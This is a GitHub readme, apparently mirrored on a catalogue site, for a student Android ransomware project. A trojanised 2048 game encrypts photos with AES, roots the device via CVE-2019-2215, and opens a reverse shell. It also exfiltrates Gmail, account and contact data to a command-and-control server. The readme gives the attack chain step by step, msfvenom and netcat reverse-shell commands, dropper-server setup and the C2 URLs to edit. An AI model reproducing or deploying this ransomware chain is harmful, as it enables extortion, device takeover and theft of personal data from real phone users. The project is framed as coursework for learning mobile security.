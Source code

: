 # Rootsmart-v2.0

Android Ransomware Development - AES256 encryption + CVE-2019-2215 (reverse root shell) + Data Exfiltration

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/nicchongwb](https://github.com/nicchongwb) |
| Url      | [https://github.com/nicchongwb/Rootsmart-v2.0](https://github.com/nicchongwb/Rootsmart-v2.0)                                               |
| Stars    | 10                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* android* cve-2019-2215* cybersecurity* malware* mobile* ransomware* root* security

</details>

## Readme

# Rootsmart 2.0 w/ cve-2019-2215 + Ransomware

### Disclaimer
This project is solely for educational purposes. This project utilise code from [rkshrksh/2048-Game](https://github.com/rkshrksh/2048-Game) and [kangtastic/cve-2019-2215](https://github.com/kangtastic/cve-2019-2215).

---

## Project Description

This project is part of Singapore Institute of Technology Mobile Security module. The project was done within 6 weeks and the aim of the project was to develop a malicious android application. By doing so, it helped us to learn how security mechanisms are implemented in an Android OS and how we can exercise OWASP Mobile Top 10:2017 M8 - Code Tampering.

The project is proof of concept to showcase a custom written ransomware that utilises AES encryption, weaponising cve-2019-2215, and also exfiltrating data from the infected device.

It is tested on Android 10 and Google Pixel 2 XL.

```
├── 2048-Game 					// Android Project Folder
├── 2048-keystore				// Test-Keystore
├── cve-2019-2215				// Modified cve-2019-2215
│	└── cve-2019-2215.c
├── dropper_server				// Dropper server directory 
│	├── cve-2019-2215			// shells.zip content before zipping
│	├── dropper_server.py		// Dropper server program
│	├── exfiltrated_data.log
│	├── masterkeys.txt
│	├── ncat.exe 				// Netcat windows binary - for Reverse shell listener
│	├── requirements.txt
│	├── shells.zip  			// shells.zip that is hosted in root of dropper server
│	└── venv
└── test_images    				// test_images for easy adb push <image.ext> /sdcard/Pictures
```


##### Attack Vector:

1. Install, run the application and grant permissions
2. Ransomware will AES encrypt all files in /sdcard/Pictures
3. Each file will be encrypted with a random generated key
4. Keys will be stored in /sdcard/keys.json where each key:value pair is filepath:key
5. GET HTTP to C2 server /get_mk to retrieve MasterKey and VictimID in response body
6. MasterKey will encrypt keys.json, VictimID will be stored in /sdcard/victimID.txt
7. The application will download shells.zip and unzip the contents
8. Execute cve-2019-2215 binary from the unzipped contents
9. A root shell process will be spawn and will run install.sh from the unzipped contents
10. Install.sh will execute rs.elf from the unzipped contents to send a reverse connection to attack server
11. The appliation will exfiltrate the device's gmail, user account information, and contacts.


##### Demonstration
https://user-images.githubusercontent.com/56181271/155875246-092a3954-2f42-42b7-a00e-581a1bbf0546.mp4

---

## C2 (Command & Control) - Setup
For this test, ensure that the victim phone and the C2 server are in the same subnet (otherwise host C2 in public internet). There are 3 endpoints for the C2 server that can be found in dropper/dropper_server.py:

1. /process_command - GET to download shells.zip and run the cve-2019-2215 root exploit
2. /get_mk - GET to obtain the victimID:masterkey key-value pair to encrypt /sdcard/keys.json
3. /postData - POST exfiltrated gmail, contacts, account information

##### Reverse Shell Server
```bash
nc -lvnp 1337 # Ideally this should be the same IP as the dropper server
```

##### Dropper Server
```bash
# Generate rs.elf payload
msfvenom -p linux/aarch64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> -f elf > rs.elf

# Better to run flask on Windows if WSL don't port forward localhost traffic to Windows Host
cd dropper
python3 -m venv venv # Create venv

# Activate venv
. venv/bin/activate # Linux
venv\Scripts\activate.bat # Windows
pip install -r requirements.txt --upgrade pip # Make sure host shell is root/Administrator

# Run C2 server
python3 dropper_server.py # WSL
python dropper_server.py # Windows
```

shells.zip in /dropper
1. Go to dropper/cve-2019-2215 folder
2. After creating rs.elf, zip rs.elf + cve-2019-2215, install.sh
3. Rename zip file to shells.zip
4. Move shells.zip to /dropper

## Modify the following before compiling APK

Java Classes
```java
// File : 2048-Game/app/src/main/java/aarkay/a2048game/Temproot.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/process_command"; // Line 19

// File : 2048-Game/app/src/main/java/aarkay/a2048game/Encrypt.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/get_mk"; // Line 45

// File : 2048-Game/app/src/main/java/aarkay/a2048game/PostData.java
// Change IP and port according to dropper server IP and port
String urlString = "http://192.168.157.73:8080/postData"; // Line 32
```








## Get the content

```
git clone https://github.com/nicchongwb/Rootsmart-v2.0
cd Rootsmart-v2.0
```

{% embed url="https://github.com/nicchongwb/Rootsmart-v2.0" %}

<figure><img src="https://avatars.githubusercontent.com/u/56181271?v=4" alt=""><figcaption><p>nicchongwb</p></figcaption></figure>
